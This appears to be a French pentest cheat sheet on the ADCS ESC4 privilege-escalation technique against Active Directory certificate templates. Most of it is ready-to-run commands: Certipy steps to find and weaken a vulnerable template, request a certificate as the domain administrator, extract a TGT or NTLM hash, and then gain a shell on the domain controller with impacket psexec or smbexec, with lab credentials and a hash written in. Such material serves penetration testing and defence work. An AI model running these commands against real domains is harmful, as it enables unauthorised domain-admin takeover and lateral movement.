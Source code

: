 # ESC4

***

ESC4 est une **technique d’escalade de privilèges** dans un environnement ADCS via **la modification non autorisée d’un modèle de certificat (Certificate Template)**. Elle exploite des **droits d’accès mal configurés** permettant à un utilisateur standard de :

* Modifier les ACL du modèle de certificat.
* Délivrer des certificats abusivement à des comptes à privilèges (comme les Domain Admins).

***

### <mark style="color:red;">🧠</mark> <mark style="color:red;"></mark><mark style="color:red;">**Pré-requis (Post-Exploitation)**</mark>

Pour réaliser une attaque ESC4, l’attaquant doit disposer de :

* Un accès initial à un compte non privilégié dans le domaine.
* Des **droits spécifiques sur un modèle de certificat** :
  * `Owner`
  * `WriteOwnerPrincipals`
  * `WriteDaclPrincipals`
  * `WritePropertyPrincipals`
* Un modèle de certificat vulnérable **activé** et avec **l'enrôlement autorisé**.
* Outils :
  * `Certipy` 🥇
  * `Impacket`, `evil-winrm`, `BloodHound`, `PKINITtools`

***

### <mark style="color:red;">🔐</mark> <mark style="color:red;"></mark><mark style="color:red;">**Droits ACL Exploitables**</mark>

Voici les **droits dangereux** sur un modèle de certificat :

| Droit ACL                 | Impact                                                                              |
| ------------------------- | ----------------------------------------------------------------------------------- |
| `Owner`                   | Droit complet sur l’objet.                                                          |
| `WriteOwnerPrincipals`    | Peut changer le propriétaire du modèle.                                             |
| `WriteDaclPrincipals`     | Peut modifier la liste de contrôle d’accès (DACL).                                  |
| `WritePropertyPrincipals` | Peut modifier les propriétés du modèle, y compris les UPN et les règles d’émission. |

***

### <mark style="color:red;">🛠️</mark> <mark style="color:red;"></mark><mark style="color:red;">**Détection de modèles vulnérables**</mark>

#### <mark style="color:green;">Avec Certipy :</mark>

```bash
certipy find -u <user> -p <pass> -dc-ip <IP_DC> -vulnerable -enabled -old-bloodhound
```

#### <mark style="color:green;">Extraction simple :</mark>

```bash
cat *_Certipy.txt | grep "ESC4"
```

#### <mark style="color:green;">Avec BloodHound :</mark>

Importation des fichiers générés par `Certipy` (JSON/ZIP) dans BloodHound.

***

### <mark style="color:red;">🚨</mark> <mark style="color:red;"></mark><mark style="color:red;">**Étapes de l’attaque (Linux & Windows)**</mark>

***

#### <mark style="color:green;">🎯 1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Modifier le modèle de certificat pour l’affaiblir (via Certipy)**</mark>

```bash
certipy template -dc-ip 192.168.115.180 -u pcoulson -p 'P4ssw0rd123456@' -template ESC4 -target DC4.shield.local -save-old
```

***

#### <mark style="color:green;">🧾 2.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Demander un certificat au nom de l’administrateur**</mark>

```bash
certipy req -ca SHIELD-DC4-CA -dc-ip 192.168.115.180 -u pcoulson -p 'P4ssw0rd123456@' -template ESC4 -target DC4.shield.local -upn administrator@shield.local
```

***

#### <mark style="color:green;">🔐 3.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Authentifier avec le certificat .pfx et extraire le TGT**</mark>

```bash
certipy auth -pfx administrator.pfx
```

***

### <mark style="color:blue;">🔓</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Exploitation post-authentification**</mark>

#### <mark style="color:green;">➕ Pass-The-Hash :</mark>

```bash
impacket-smbexec administrator@dc4.shield.local -hashes aad3b435b51404eeaad3b435b51404ee:c5153b43885058f27715b476e5246a50
```

#### <mark style="color:green;">➕ TGT avec impacket :</mark>

```bash
export KRB5CCNAME=administrator.ccache
impacket-psexec administrator@dc4.shield.local -k -no-pass
```

#### <mark style="color:green;">➕ Avec PKINITtools :</mark>

```bash
python gettgtpkinit.py shield.local/administrator -cert-pfx administrator.pfx PKINIT-Administrator.ccache
export KRB5CCNAME=PKINIT-Administrator.ccache
impacket-psexec administrator@dc4.shield.local -k -no-pass
```

***

### <mark style="color:red;">🔁</mark> <mark style="color:red;"></mark><mark style="color:red;">**Restaurer la configuration initiale du modèle**</mark>

```bash
certipy template -dc-ip 192.168.115.180 -u pcoulson -p 'P4ssw0rd123456@' -template ESC4 -target DC4.shield.local -configuration ESC4.json
```

***

### <mark style="color:red;">📌</mark> <mark style="color:red;"></mark><mark style="color:red;">**Résumé schématique**</mark>

```
[ User "pcoulson" ]
        ↓
[ Droits ACL sur ESC4 ]
        ↓
[ Modification du template (ESC1-like) ]
        ↓
[ Requête Certificat Admin ]
        ↓
[ .pfx → auth avec Certipy ]
        ↓
[ TGT ou hash Admin ]
        ↓
[ psexec / smbexec → DC ]
```

***
